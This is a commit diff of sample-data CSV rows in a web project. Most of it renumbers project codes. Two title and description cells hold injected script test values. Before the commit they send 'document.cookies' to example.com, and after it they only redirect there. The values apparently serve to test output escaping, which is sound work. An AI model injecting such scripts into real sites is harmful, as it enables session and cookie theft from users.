

Before and after one commit to rafcasceb/Acme-SF-D04, a CSV file: src/main/webapp/WEB-INF/resources/sample-data/project.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/src/main/webapp/WEB-INF/resources/sample-data/project.csv
+++ b/src/main/webapp/WEB-INF/resources/sample-data/project.csv
-B13 (code): CDR-0011
+B13 (code): CDR-0012
-C13 (title): …window.location = ‘https://example.com/?user_data=’ + document.cookies; </script>
+C13 (title): …window.location = ‘https://example.com’; </script>
-B14 (code): CDR-0012
+B14 (code): CDR-0013
-B15 (code): CDR-0013
+B15 (code): CDR-0014
-B16 (code): CDR-0014
+B16 (code): CDR-0015
-B17 (code): CDR-0013
+B17 (code): CDR-0016
-D17 (abstractDescription): …window.location = ‘https://example.com/?user_data=’ + document.cookies; </script>
+D17 (abstractDescription): …window.location = ‘https://example.com’; </script>
-B18 (code): CDR-0015
+B18 (code): CDR-0017
-B19 (code): CDR-0016
+B19 (code): CDR-0018
-B20 (code): CDR-0017
+B20 (code): CDR-0019
-B21 (code): CDR-0018
+B21 (code): CDR-0020
```
Also changed, not shown: src/main/webapp/WEB-INF/resources/sample-data/manager.csv, src/main/webapp/WEB-INF/resources/sample-data/user-story.csv.
